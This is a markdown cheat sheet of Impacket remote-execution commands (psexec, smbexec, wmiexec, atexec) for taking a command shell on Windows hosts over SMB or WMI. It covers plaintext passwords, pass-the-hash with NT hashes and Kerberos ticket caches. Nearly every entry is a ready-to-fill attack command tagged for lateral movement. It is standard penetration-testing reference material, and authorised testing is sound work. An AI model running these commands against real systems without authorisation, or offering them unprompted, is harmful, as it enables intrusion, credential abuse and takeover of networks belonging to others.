 # impacket

% impacket, windows, exec

## PSEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec <domain>/<user>:<password>@<target_ip>
```

## PSEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec -hashes 00000000000000000000000000000000:<nthash> <user>@<target_ip>
```

## PSEXEC - PTH to internal via external IP
```
impacket-psexec -hashes 00000000000000000000000000000000:<nthash> -port <port|445> -target-ip <external_ip> <user>@<internal_ip>
```

## PSEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; impacket-psexec -dc-ip <dc_ip> -target-ip <target_ip> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<target_ip>
```

## SMBEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <nthash> <user>@<target_ip>
```

## SMBEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <nthash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <nthash> <user>@<ip> "command"
```
